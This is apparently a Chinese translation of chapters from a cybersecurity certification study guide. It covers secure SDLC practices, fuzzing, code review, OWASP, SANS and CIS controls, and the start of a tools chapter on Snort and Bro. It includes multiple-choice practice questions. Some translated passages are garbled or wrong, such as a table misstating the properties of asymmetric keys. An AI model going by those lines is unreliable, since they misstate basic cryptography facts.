- `技术报告`：此报告对所有发现的漏洞提供全面分析，并作为网络管理员、安全专员和 IT 经理评估网络安全的工具。
- `变更报告`：此报告仅展示与之前扫描相比的变化，突出了潜在风险、未经授权的活动和安全相关的网络操作。
- `执行报告`：此报告为高级 IT 高管设计，提供适中的图表并带有足够的支持细节以协助决策。
- `高级执行报告`：此报告提供更多的图表和更少的细节，用于向非技术决策者进行演示。

- 3. 网络安全团队正在探索安全工具。以下哪项是将多个安全工具组合到单一工具中的集合？
- a. 安全套件
- b. MBSA
- c. HAIPS 设备
- d. Syslog

- 4. 最近你的组织被发现对某些信息的泄露负责，而这些信息实际上是供应商的责任。组织由于与其他机构和客户合作产生了哪种责任？
- a. 尽职调查
- b. 下游责任
- c. 尽责
- d. SLA（服务水平协议）

- 5. 你的组织最近进行了漏洞评估，以更好地掌握面临的安全风险。该组织正在实践哪种概念？
- a. 尽职调查
- b. 下游责任
- c. 尽责

- 6. 你在无线 AP 上实现了一种加密算法。哪种加密算法的加密密钥与解密密钥相同？
- a. 对称
- b. 非对称
- c. 流
- d. 块

- 7. 你实现了一种加密算法，它将消息拆分成固定长度的单元并对每个单元进行操作。你实现的是哪种算法？
- a. 对称
- b. 非对称
- c. 流
- d. 块

- 8. 最近有一个加密密钥被黑客破解，该黑客识别了密文中的模式并逆向工程出了密钥。以下哪项用于确保加密过程中不产生模式？
- a. IV（初始化向量）
- b. 私钥
- c. 公钥
- d. S 盒

- 9. 安全团队正在选择加密算法，因此正在比较对称和非对称算法。关于非对称算法，以下哪个说法是正确的？
- a. 密钥分比对称算法更困难且更难管理。
- b. 密钥管理更容易，因为所有方都使用相同的公钥。
- c. 非对称算法的实现成本比对称算法便宜。
- d. 非对称算法比对称算法快 1000 到 10000 倍。

| 优点 | 缺点 |
| :--- | :--- |
| 密钥分比对称算法更容易且更易管理。 | 非对称算法的实现成本比对称算法高昂。 |
| 密钥管理更容易，因为所有方都使用相同的公钥。 | 非对称算法比对称算法慢 1000 到 10000 倍。 |

- 10. 最近出现了文件被篡改的问题，你希望部署一种方法来识别文件何时发生。以下哪项提供了消息完整性？
- a. 哈希 (Hashing)
- b. 加盐 (Salting)
- c. 置换
- d. 替换

# 第 13 章 应用安全最佳实践

本章涵盖了以下主题：

4.0 安全架构与工具集

4.4 在给定场景下，参与软件开发生命周期 (`SDLC`) 时使用应用安全最佳实践。

- `软件开发期间的最佳实践`：讨论了安全实践，如安全需求定义、安全测试阶段、人工同行评审、用户验收测试、应用程序压力测试、安全回归测试和输入验证。
- `安全编码最佳实践`：涵盖了来自 `OWASP`、`SANS` 和互联网网络安全中心 (`CIS`) 的指南。

许多组织为客户或供内部使用创建软件。在开发软件时，在过程中考虑安全得越早，安全软件的成本就越低。软件最好的做法是“设计安全”。安全编码标准是一系列实践，如果在整个软件开发生命周期中遵循这些标准将有助于减少应用程序的攻击面。标准是通过针对通用编程语言的广泛社区努力而开发的。本章探讨了应用安全、应进行的测试类型以及来自多个知名组织的安全编码最佳实践。

## “你了解吗？”测验

“你了解吗？”测验可以让你评估自己是否应该阅读整个章节。表 13-1 列出了本章的主要标题以及“你了解吗？”问题，以便你评估对这些特定领域的知识。测验答案见附录 A，“‘你了解吗？测验与复习题”。如果你错错超过一个问题，你可能需要跳到“考试准备任务”。

表 13-1 “你了解吗？”测验：基础主题与题目映射

| 基础主题 | 题目 |
| :--- | :--- |
| 软件开发期间的最佳实践 | 1, 2 |
| 安全编码最佳实践 | 3, 4 |

- 1. 软件开发团队正在为新应用程序编写代码。在软件开发周期的哪个阶段开始编写代码？
- a. 发布/维护
- b. 开发
- c. 设计
- d. 收集需求

- 2. 一个新的 应用程序已部署了一周，测试团队希望捕获并分析应用程序的所有交易。团队建议使用哪种漏洞扫描？
- a. 污点分析
- b. 模糊测试
- c. RUM
- d. 词法分析

- 3. 你的网络安全团队监控流行的行业网站以跟踪最新的网络威胁。以下哪个组织持续维护 Top 10 网络攻击列表？
- a. SANS
- b. 互联网网络安全中心
- c. OWASP
- d. CIS

- 4. 在为所有设备维护一致的安全配置遇到困难后，团队正在寻找适用于组织的安全基准。以下哪个组织通过发布基准为操作系统、中间件和应用程序以及网络设备提供技术设置？
- a. SANS
- b. GIAC
- c. OWASP
- d. CIS

## 基础主题

# 软件开发期间的最佳实践

在编写和开发软件时，可以将重点放在其功能和易用性或安全性上。在许多情况下，这两个目标可能是背道而驰的。对软件的安全性关注不足，可能会导致软件对应用程序及其运行的系统引入安全问题。

在为新软件编写代码时，人员必须确保实施了适当的安全控制，并且代码得到了妥善保护。本节涵盖了软件开发生命周期（`SDLC`）以及为了确保功能和安全性应该执行的测试类型。

软件开发生命周期的目标是提供一个可预测的程序框架，旨在识别所有与功能、成本、可靠性和交付计划相关的所有需求，并确保最终解决方案满足每项需求。这些是软件开发生命周期中的步骤：


- 步骤 1. 计划/启动项目
- 步骤 2. 收集需求
- 步骤 3. 设计
- 步骤 4. 开发
- 步骤 5. 测试/验证
- 步骤 6. 发布/维护
- 步骤 7. 认证/认可
- 步骤 8. 执行变更管理和配置管理/替换

后续章节详细阐了软件开发生命周期的步骤，并描述了每个步骤如何对周期的最终目标做出贡献。

## 计划/启动项目

在软件开发生命周期的计划/启动阶段，组织决定启动一个新的软件开发项目并对项目进行正式计划。安全专业人员应参与此阶段，以确定项目涉及的信息是否需要保护，以及应用程序是否需要与其处理的数据分开进行保护。安全专业人员需要分析新应用程序的预期结果，以确定产生的数据对组织是否具有更高价值，因此需要更高的保护。

应用程序处理的任何信息都需要由其所有者分配价值，任何特殊的法规或合规性要求都需要记录。例如，医疗保健信息受多项联邦法律的监管，必须受到保护。应用程序所有输入输出数据的分类需要记录，并应记录适当的应用程序控制以确保输入输出数据得到保护。

还必须分析数据传输以确定所使用的网络类型。必须分析所有数据源。最后，需要分析应用程序对组织运营和文化的影响。

## 收集需求（安全需求定义）

在软件开发生命周期的收集阶段，需要识别解决方案的功能和安全需求。这些需求可能源于各种来源，例如对商业竞争产品的评估，或对内部解决方案需求的调查。在某些情况下，这些需求可能来自当前客户的直接请求。

从安全的角度来看，组织必须识别潜在的漏洞和威胁。在进行此类评估时，必须考虑软件的预期目的和预期环境。此外，必须对解决方案生成或处理的数据进行敏感性评估。为数据分配隐私影响评分以帮助指导旨在保护数据免受暴露的措施可能会有用。

## 设计

在软件开发生命周期的设计阶段，组织开发一个关于软件如何满足所有功能和安全目标的详细描述。它尝试将软件的内部行为和操作映射到特定需求，以识别在实施和测试之前未满足的任何需求。

在此过程中，确定应用程序在每个活动阶段的状态。应用程序的状态是指其在执行每项操作期间的功能和安全态势。因此，必须识别所有可能的操作，以确保软件永远不会进入不安全状态或以不可预测的方式运行。

识别攻击面也是此类分析的一部分。攻击面描述了攻击者可以利用的资源。攻击面的数量可能会随着应用程序的不同状态而变化，但在任何时候，提供的攻击面都不应违反在“收集需求”阶段确定的安全需求。

## 开发

开发阶段涉及编写使软件运行的代码或指令。该阶段的重点是严格遵守安全编码规范。某些模型可以帮助促进本章稍后在“安全编码最佳实践”部分中涵盖的安全编码。

软件的许多安全问题是通过不安全的编码实践创建的，例如缺乏输入验证或数据类型检查。在代码审查中识别这些问题非常重要，审查应尝试假设所有可能的攻击场景及其对代码的影响。

## 测试/验证

在测试/验证阶段，应该进行几种类型的测试，包括识别功能错误和安全问题的方法。评估系统测试范围并识别未测试特定程序逻辑的审计方法称为测试数据方法。该方法不仅测试预期或有效的输入，还测试无效和意外的值，以评估软件在这两种情况下的行为。应该积极尝试攻击软件，包括尝试缓冲区溢出和拒绝服务攻击。此时执行的测试有两个主要目标：


- 验证测试：确定是否满足了原始设计规范
- 有效性测试：从更高层次的角度来看，软件的原始目的是否已经实现

软件通常以代码片段或模块的形式开发，随后组装成最终产品。每个模块都应该单独进行测试，这种程序称为单元测试。让开发人员执行此测试至关重要，但使用一组与编写代码的人不同的工程师可以确保过程的公正性。这是权责分离概念的一个良好示例。

单元测试应该具有以下特征：


- 测试数据应该是规范的一部分。
- 测试应该检查超出范围的值和越界条件。
- 正确的测试结果应该预先开发并已知。

不建议在单元测试中使用现场或实际字段数据。

## 安全测试阶段

在测试阶段可以进行不同类型的测试。其中包括静态代码分析、Web应用程序漏洞扫描和模糊测试。后续章节将深入探讨这些测试类型是如何工作的。

### 静态代码分析是在不执行代码的情况下进行的。代码审查和测试必须贯穿整个软件开发生命周期。代码审查和测试必须识别不良编程模式、安全配置错误、功能缺陷和逻辑流。计划和设计阶段的代码审查和测试包括架构安全审查和威胁建模。代码审查和测试包括静态源码分析、手动代码审查以及静态二进制代码分析和手动二进制审查。一旦应用程序部署，代码审查和测试涉及渗透测试、漏洞扫描器和模糊测试。

静态代码审查可以使用查找常见问题的扫描工具完成。这些工具可以使用各种方法发现漏洞，包括以下：


- 数据流分析：该分析在软件处于静态状态时查看运行时信息。
- 控制流图：可以开发组件及其关系图，并通过关注每个组件或模块的入口和出口来进行测试。
- 污点分析：该分析试图识别被用户可控制输入污染的变量。
- 词法分析：此类分析将源代码转换为信息标记（`tokens`），以抽象代码并便于为了测试目的进行操作。

## Web 应用程序漏洞扫描

Web 漏洞扫描器专注于 Web 应用程序。这些工具有两种运行方式：使用合成事务监控（Synthetic Transaction Monitoring）和真实用户监控（Real User Monitoring）。在合成事务监控中，以自动化方式对应用程序执行预定义的（合成）事务，并记录应用程序的行为。在真实用户监控中，会在 Web 应用程序运行时监控用户的交易。

合成事务监控是一种主动监控，使用外部代理对应用程序运行脚本事务。这种监控通常更适用于网站和应用程序。它能够提供有关应用程序可用性和性能的洞察，并在用户体验到应用程序行为退化之前警告任何潜在问题。例如，微软的系统操作管理器（System Operations Manager）使用合成事务监控数据库、网站和 TCP 端口的使用。

相比之下，真实用户监控（`RUM`）是一种被动监控，它是捕获并分析每个应用程序或 Web 用户每个交易的监控方法。与通过定期测试合成交互来获取性能洞察的合成监控不同，`RUM` 消除了猜测，可以直接看到用户是如何与应用程序交互的。

目前有很多 Web 测试应用程序可用。这些工具扫描应用程序是否存在常见的 Cookie 管理、PHP 脚本、SQL 注入或其他安全问题。这些工具的某些示例（在第 14 章中有更详细讨论）包括：

- `Qualys`
- `Nessus`
- `Nexpose`
- `Nikto`

## 模糊测试（Fuzzing）

模糊测试（Fuzz testing）涉及向应用程序注入无效或意外的输入（有时称为故障），以测试应用程序的反应。这通常通过一个自动化该过程的软件工具完成。输入可以包括环境变量、键盘和鼠标事件以及 API 调用序列。图 13-1 显示了模糊测试过程的逻辑。


图 13.1. 模糊测试



可以使用两种模糊测试来识别对故障注入攻击的敏感性：


- 变异模糊测试（Mutation fuzzing）：这种类型涉及盲目地更改现有的输入值。
- 基于生成的模糊测试（Generation-based fuzzing）：这种类型根据规范/格式从头生成输入。

以下措施可以帮助防止故障注入攻击：

- 实施模糊测试以帮助识别问题。
- 遵循安全编码和项目管理规范。
- 部署应用级防火墙。

## 使用拦截代理爬取应用程序

拦截代理是一种位于 Web 服务器和客户端之间的应用程序，它来回传递所有的请求和响应。在此过程中，它分析信息以测试 Web 应用程序的安全性。

Web 应用程序代理还可以“爬取”网站及其应用程序，以发现包含的链接和内容。这些有时被称为爬虫。Web 代理的一个很好的例子是 OWASP Zed Attack Proxy (ZAP)。该工具在第 14 章中有更详细的介绍。

## 手动同行评审

正式代码审查涉及包含多个参与者和多个阶段的仔细且详细的过程。在这种代码审查中，软件开发人员参加会议并审查每一行代码，通常使用打印副本。轻量级代码审查通常比正式检查的开销更小，尽管如果执行得当，它可以同样有效。轻量级代码审查包括：

- 旁路评审（Over-the-shoulder）：当作者演示代码时，另一名开发者在其旁边查看。
- 邮件传递（E-mail pass-around）：代码提交后，源代码会自动通过电子邮件发送给评审人员。
- `结对编程（Pair programming）`：两个作者在同一工作站共同开发代码。
- `工具辅助代码审查`：作者和评审人员使用为同行代码评审设计的工具。

## 用户验收测试（UAT）

虽然确保 Web 应用程序安全很重要，但在某些情况下，安全特征会导致应用程序从用户的角度变得不可用。用户验收测试旨在确保这种情况不会发生。设计用户验收测试时，请记住以下指南：


- 在镜像备用环境中进行测试。
- 确定应执行的真实世界用例。
- 从不同的内部部门选拔 UAT 人员。

## 应用程序压力测试

虽然模糊测试的目标是定位安全问题，但压力测试确定了应用程序能够承受的工作负载。这些测试应该以特定的方式进行，并且在测试开始之前始终要有定义的目标。你会发现许多此类模型，但一种建议的活动顺序如下：


步骤 1. 根据测试测试的预期结果确定测试目标。

步骤 2. 确定应执行的关键场景。

步骤 3. 确定你想收集的指标以及这些指标的类型。

步骤 4. 确定你想要施加的负载。

步骤 5. 创建运行的测试用例。

步骤 6. 使用测试工具模拟负载。

步骤 7. 分析结果。

步骤 1. 选择产品。
步骤 2. 加入购物车。
步骤 3. 结账。

步骤 4. 模拟用户。

步骤 5. 登录测试。
步骤 6. 搜索测试。

## 安全回归测试

回归测试是为了在做出更改后验证功能。安全回归测试是回归测试的一个子集，用于验证更改没有降低安全性或引入新的漏洞。这种测试应该由与实施更改的不同的小组执行。它可以发生在开发过程的任何部分，并包括以下类型：


- 回归（Unit regression）：这种类型作为单元测试代码。不测试交互和依赖。
- 部分回归（Partial regression）：在这种类型中，新代码与现有代码的其他部分交互。
- 完全回归（Complete regression）：这种类型是最终回归。

## 输入验证

许多攻击的是因为 Web 应用程序没有验证用户输入。输入验证是检查所有输入是否具有正确格式和正确长度的过程。在许多情况下，验证器使用字符或模式的黑名单或字符或模式的白名单。黑名单查找要拦截的字符或模式。它可能会阻止合法请求。白名单查找允许的字符或模式并只允许这些内容。

输入验证工具分为几类：

- 云端服务
- 开源工具
- 专有商业产品

由于这些工具所需的技能各异，选择应根据安全团队中代表的技能做出。一个没有人知道如何使用的花哨工具不是有效的工具。

## 发布/维护

在某些文档中也称为发布/维护阶段，该阶段包括将软件实施到现场环境并对其运行进行持续监控。在软件开始与网络与其他元素交互时，发现额外的功能和安全问题并不罕见。

## 认证/认可

认证是根据客户需求对软件的安全有效性进行评估的过程。评分无疑是一个

是该过程的输入，但并非唯一的考虑因素。认可（Accreditation）是管理层对系统整体安全性的正式认可。临时认可（Provisional accreditation）的有效期为一段时间，并列出了应用程序、系统或认证文档的变更。正式认可在不需要任何更改的情况下授予认可。一旦所有更改都由认证机构完成、分析并批准，临时认可将变为正式认可。

虽然认证（Certification）和认可之间有联系，但它们并不是一回事，而且被认为是一个过程中的两个步骤。

## 变更管理与配置管理/替换

解决方案部署到生产环境后，不可避免会由于安全问题对软件进行额外的更改。在某些情况下，可能会修改软件以增强或增加其功能。无论哪种情况，都必须通过正式的变更和配置管理过程来处理。

此过程目的是确保代码配置以及源代码本身的所有更改都经过适当人员批准，并以安全逻辑的方式实施。该过程应确保生产环境的功能持续，并完整记录所有更改，包括对硬件和软件的所有更改。

在某些情况下，可能需要完全替换应用程序或系统。某些故障可以通过增强或更改来修复，但可能出现只有通过完全替换应用程序才能解决的故障。

## 安全编码最佳实践

为了支持确保软件在功能和安全性方面都开发良好的目标，许多机构已尝试汇总软件开发最佳实践。以下章节将介绍其中一些机构，并列出了他们许多重要的建议。

## OWASP

开放 Web 应用安全项目（`OWASP`）是一个监控攻击（特别是 Web 攻击）的团体。`OWASP` 持续维护一份十大常见攻击列表。该团体还会在世界各地的分会定期举行会议，提供资源和工具，如测试程序、代码审查步骤和开发指南。以下是 `OWASP` 的一些关键出版物：

- 软件保证成熟度模型：从无序的软件开发过程转向关注持续改进过程的指导
- 开发指南：安全编码实践的提示以及对最新威胁的更新
- 测试指南：对软件进行渗透测试的框架
- 构建安全 Web 应用程序指南：在 Web 应用程序中构建安全特性的最佳实践
- 代码审查指南：关于代码审查的建议
- 测试指南：代码测试规范
- 应用程序安全验证标准（`ASVS`）：测试 Web 应用程序技术安全控制的依据，为开发者提供了安全开发的需求列表

## SANS

系统管理员、审计、网络与安全协会（`SANS`）组织为安全软件开发提供指南，并赞助全球信息保证认证（`GIAC`）。`SANS` 还提供培训、开展研究，并发布网络安全、Web 安全和应用程序安全的最佳实践。`SANS` 网站（`www.sans.org`）发布了大量基于研究的白皮书和最佳实践。

## 互联网安全中心

`CIS` 是由 `SANS` 部分资助的非营利组织，以编制 `CIS` 安全控制（`CIS Controls`）闻名。`CIS` 发布了前 20 项 `CIS` 控制列表。它还提供加固系统镜像、培训、评估工具和咨询服务。

## 系统设计建议

`CIS` 通过发布特定场景的安全控制措施提供系统设计建议。`CIS` 控制按类型组织并编号。如以下列表所示，`CIS` 控制涵盖了本书书中讨论的许多概念和技术：

- `CSC 1`: 授权与未授权设备的清单
- `CSC 2`: 授权与未授权软件的清单
- `CSC 3`: 移动设备、笔记本电脑、工作站和服务器硬件及软件的安全配置
- `CSC 4`: 持续漏洞评估与修复
- `CSC 5`: 管理权限的受控使用
- `CSC 6`: 审计日志的维护、监控与分析
- `CSC 7`: 电子邮件和浏览器保护
- `CSC 8`: 恶意软件防御
- `CSC 9`: 网络端口、协议和服务的限制与控制
- `CSC 10`: 数据恢复能力
- `CSC 11`: 防墙、路由器和交换机等网络设备的安全配置
- `CSC 12`: 边界防御
- `CSC 13`: 数据保护
- `CSC 14`: 基于知所需的受控访问
- `CSC 15`: 无线访问控制
- `CSC 16`: 账户监控与控制
- `CSC 17`: 安全技能评估及填补差距的适当培训
- `CSC 18`: 应用程序安全
- `CSC 19`: 应急响应与管理
- `CSC 20`: 渗透测试与红队演练

要了解更多 `CIS` 控制，请访问 `www.cisecurity.org/critical-controls.cfm`。

基准 (Benchmarks)

`CIS` 基准是针对操作系统、中间件、软件应用程序和网络设备的推荐技术设置。它们针对必须遵守各种合规性计划的组织，例如 `PCI-DSS`（针对信用卡数据）、`SOX`（针对财务报告）、`NIST 800-53`（联邦信息系统和组织的安全与隐私控制）以及 `ISO 27000`。

要了解更多 `CIS` 基准，请访问 `https://benchmarks.cisecurity.org`。

## 备考任务

如引言中“备考策略”章节所述，你有两种备考选择：这里的练习（第 15 章“期末准备”）以及 Pearson 测试引擎中的模拟考试。

1. 您的组织正试图改进其软件开发流程，到目前为止，这些流程相当混乱。以下哪项内容提供了一个可预测的开发程序框架，旨在识别与功能、成本、可靠性和交付进度相关的所有需求，并确保最终解决方案满足每项需求？

   - a. SDLC
   - b. SANS
   - c. OWASP
   - d. CIS

2. 软件开发团队开发了一份详细描述，说明新软件将如何满足所有功能和安全目标。该团队处于 SDLC 的哪个阶段？

   - a. 发布/维护 (Release/maintain)
   - b. 开发 (Develop)
   - c. 设计 (Design)
   - d. 收集需求 (Gather requirements)

3. 软件测试团队试图攻击某些新开发的软件，以确定是否满足了原始设计规范。该团队正在执行哪种测试？

   - a. 验证测试 (Verification testing)
   - b. 确认测试 (Validation testing)
   - c. 模糊测试 (Fuzz testing)
   - d. 静态代码分析 (Static code analysis)

4. 软件安全团队正在进行某些测试，其中他们更改现有的输入值（盲目地）。该团队正在执行哪种测试？

   - a. 故障注入 (Fault injection)
   - b. 变异模糊测试 (Mutation fuzzing)
   - c. 基于生成的模糊测试 (Generation-based fuzzing)
   - d. 端口扫描 (Port scanning)

5. 软件测试团队已达到新软件开发过程中的某一点，准备好选择一种代码手动同行评审方法。以下哪项**不是**手动同行评审的类型？

   - a. 隔肩评审 (Over-the-shoulder)
   - b. 结对编程 (Pair programming)
   - c. 辅助辅助代码审查 (Tool-assisted code review)
   - d. 分 Split模糊测试 (Split fuzz test)

6. 测试表明正在开发的某些软件需要进行更改，且这些更改已经实施。现在在对软件进行更改后，应该进行哪种测试来验证其功能？

   - a. 安全回归测试 (Security regression)
   - b. 输入验证 (Input validation)
   - c. 边界审查 (Bounding review)
   - d. 数据流分析 (Data flow analysis)

7. 在从会议上学习并实施了软件开发最佳实践后，软件开发主管启动了一个计划，寻找此类最佳实践的额外来源。以下哪项**不是**关于安全软件开发的指南和建议的来源？

   - a. OWASP
   - b. SANS
   - c. CIS
   - d. IEEE

8. 您的软件测试团队使用外部代理对应用程序运行脚本事务。该团队正在执行哪种测试？

   - a. 合成事务监控 (Synthetic transaction monitoring)
   - b. RUM
   - c. 污点分析 (Taint analysis)
   - d. 回归测试 (Regression testing)

9. 团队想要识别一种有助于防止故障注入攻击的测试方法。哪种测试可以帮助您识别是否存在漏洞？

   - a. 合成事务监控 (Synthetic transaction monitoring)
   - b. RUM
   - c. 模糊测试 (Fuzz testing)
   - d. 回归测试 (Regression testing)

10. 安全团队最近部署了一个位于 Web 服务器和客户端之间的应用程序，并回传递所有请求和响应。该团队实施了哪种解决方案？

    - a. 蜜罐 (Sinkhole)
    - b. 拦截代理 (Interception proxy)
    - c. 黑洞 (Black hole)
    - d. 填充室 (Padded cell)

## 第 14 章：使用网络安全工具和技术

本章涵盖了以下主题：

- 4.0 安全架构和工具集
- 4.5 比较并对比各种网络安全工具和技术的用途及使用原因。
- `预防性工具（Preventative Tools）`：讨论了有助于防止安全问题的工具，例如 `IPS`、`HIP`、防火墙、防病毒软件、反恶意软件、`EMET`、Web 代理和 Web 应用防火墙。
- `集合性工具（Collective Tools）`：讨论了有助于收集信息的工具，例如 `SIEM` 工具、网络扫描器、漏洞扫描器、数据包捕获工具、命令行实用以及 `IDS`/`HIDS`。
- `分析工具（Analytical Tools）`：讨论了有助于分析收集信息的工具，包括漏洞扫描器、监控工具和拦截代理。
- `利用工具（Exploit Tools）`：讨论了可用于尝试利用已发现漏洞的工具，例如交互代理、漏洞利用框架工具和模糊测试器。
- `取证工具（Forensics Tools）`：讨论了在取证调查期间可以使用工具，例如取证套件、哈希工具、密码破解实用程序和镜像工具。

本书描述了许多旨在防止安全问题、收集安全信息、分析这些信息以及根据这些信息尝试利用的流程。它还讨论了数字取证过程。本章调查了执行这些操作的常用工具。这些讨论按功能组织。然而，由于许多此类工具是多功能工具，因此它们属于多个类别。

## “我已经学过了吗？”测验

“我已经学过了吗？”测验允许您评估是否应该阅读整个章节。表 14-1 列出了本章的主要标题以及涵盖这些取证材料的“我已经学过了吗？”测验，以便您评估自己对这些特定领域的了解程度。测验答案出现在附录 A，“我已经学过了吗？”测验答案与复习题”。如果您错过了这些自测题中的一个一个，您可能希望跳到“考试准备任务”。

表 14-1. “我已经学过了吗？”基础主题与问题映射

| 基础主题 | 问题 |
| :--- | :--- |
| 预防性 (Preventative) | 1 |
| 集合性 (Collective) | 2 |
| 分析性 (Analytical) | 3 |
| 利用性 (Exploit) | 4 |
| 取证 (Forensics) | 5 |

1. 以下哪项不是 IPS？
   - a. Sourcefire
   - b. Snort
   - c. ArcSight
   - d. CIS

2. 以下哪项接收安全日志并进行数据集中处理？
   - a. SIEM
   - b. SCADA
   - c. Syslog
   - d. NetFlow

3. 以下哪项使用 SNMP 创建路由器接口流量的图表？
   - a. Nikto
   - b. MRTG
   - c. MBSA
   - d. Cain and Abel

4. 以下哪项是可以用来攻击漏洞的工具集？
   - a. Sandbox
   - b. 取证套件 (Forensic suite)
   - c. 漏洞利用框架 (Exploit framework)
   - d. 拦截代理 (Interception proxy)

5. 以下哪项是用于验证文件或镜像的过程？
   - a. Salting
   - b. 加密 (Encryption)
   - c. Adding
   - d. 哈希 (Hashing)

## 基础主题

### 预防性工具
预防性工具是用于防止攻击的工具。包括防火墙、防病毒解决方案、Web 代理服务器和 Web 应用防火墙。后续章节将讨论它们的用途并识别常见示例。

### IPS
入侵检测系统 (`IDS`) 和入侵预防系统 (`IPS`) 是相关概念，在许多情况下它们之间的变得模糊。技术上讲，`IDS` 被动检测入侵，而 `IPS` 系统可以采取行动阻止。许多 `IDS` 产品带有“预防”功能。因此我们同时讨论这两种设备。

## IDS
`IDS` 是一种用于检测系统和网络未经授权访问或攻击的系统。它可以验证网络内外的威胁。大多数 `IDS` 设计为对特定情况做出反应。事件通知和告警对 `IDS` 至关重要。它们会通知管理员和安全人员何时何地检测到了攻击。`IPS` 类型在第一章“应用环境侦察技术”中介绍。某些 `IPS` 设备示例将在后续章节中详细描述。

### Sourcefire
`Sourcefire`（现归 `Cisco` 所有）创建的产品基于 `Snort`（下一节介绍）。`Sourcefire` 创建的设备品牌为 `Firepower` 设备。这些产品是下一代 `IPS` (`NGIPS`)，提供了主机、操作系统、应用程序、服务、协议、用户、内容、网络行为以及网络攻击和恶意软件的可视性。`Sourcefire` 还包括应用控制、恶意软件防护和 URL 过滤。

图 14-1 显示了 Defense Center 显示过去一小时事件数量。这些产品提供的所有服务现在已集成到 `Cisco` 防火墙产品。有关 `Sourcefire` 的更多信息，请访问 `www.cisco.com/c/en/us/services/acquisitions/sourcefire.html`。

# 图 14-1. Sourcefire



### Snort
`Snort` 是 `Sourcefire` 产品所基于的开源 `NIDS`。它可以被安装在 `Fedora`、`CentOS`、`FreeBSD` 和 `Windows` 上。安装文件（`files`）是免费的，但您需要订阅以保持规则集更新。图 14-2 显示了一个 `Snort` 报告，该报告通过饼图按协议组织流量。它还列出了由已安装的各种签名检测到的所有事件。如果您浏览列表，可以看到诸如 URL 主机伪造、超大包以及第 10 行的 SYN FIN 扫描等攻击。

# 图 14-2. Snort



| 编号 | 签名 | 警报数 | 源 | 目的 | 详情 |
|---|---|---|---|---|---|
| 1 | WEB-CLIENT javascript host attempt [sid 1841] [bugrat 5293] | 2 | 1 | 1 | Summary |
| 2 | SCAN SOCKS Proxy attempt [sid 615] [ult help.org/proxyscan/] | 59 | 12 | 5 | Summary |
| 3 | ICMP L3btriever Ping [sid 466] [archandills 311] | 32 | 1 | 1 | Summary |
| 4 | SCAN Squid Proxy attempt [sid 618] | 6 | 1 | 1 | Summary |
| 5 | DOS stream handler to crash [sid 248] [cve CAN-2000-0138] | 6 | 1 | 1 | Summary |
| 6 | SCAN Pings (8888 attempt) [sid 520] | 6 | 1 | 1 | Summary |
| 7 | ICMP Large ICMP Packet [sid 499] [archandills 24] | 6 | 2 | 1 | Summary |
| 8 | ICMP Destination Unreachable (Communication Administratively Prohibited) [sid 487] | 10 | 4 | 1 | Summary |
| 9 | ICMP Destination Unreachable (with Destination Network is Administratively Prohibited) [sid 487] | 2 | 2 | 1 | Summary |
| 10 | (sspr_stream)STEALTH ACTIVITY (SYN FIN scan) detection | 2 | 1 | 2 | Summary |

页面于：2016年7月19日 20:05:08
页面结束：2016年7月19日 20:05:12

Bro

`Bro` 是另一种开源入侵检测系统（`IDS`）。它仅支持 Unix/Linux 平台。它不像 `Snort` 那样用户友好；配置它时需要更多的专业知识。与其他许多开源产品一样，它由一个名为软件自由维护协会（Software Freedom Conservancy）的非利组织支持。

图 14-3 显示了统计仪表板，其中包含事件、热门协议、热门主机、热门 HTTP 主机、热门目的端口和其他统计数据。

# 图 14-3. Bro.

